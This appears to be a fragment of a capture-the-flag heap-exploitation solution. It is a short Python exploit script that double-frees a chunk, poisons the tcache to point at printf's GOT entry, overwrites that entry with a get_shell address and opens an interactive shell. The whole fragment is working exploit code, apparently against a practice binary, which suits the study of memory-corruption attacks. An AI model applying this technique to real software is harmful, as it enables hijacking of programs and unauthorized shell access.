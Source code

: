 ```

# tcache[0x20] : chunk (1)
delete(0)  # (1)


# tcache[0x20] : chunk(2) -> chunk (1)
delete(0)  # (2)


printf_got = elf.got['printf']
# tcache[0x20] : chunk(1) -> printf@got
create(0x20, p64(printf_got))


# tcache[0x20] : printf@got
create(0x20, b'a')


get_shell = elf.symbols['get_shell']
# tcache[0x20] : empty

create(0x20, p64(get_shell))

p.interactive()
```
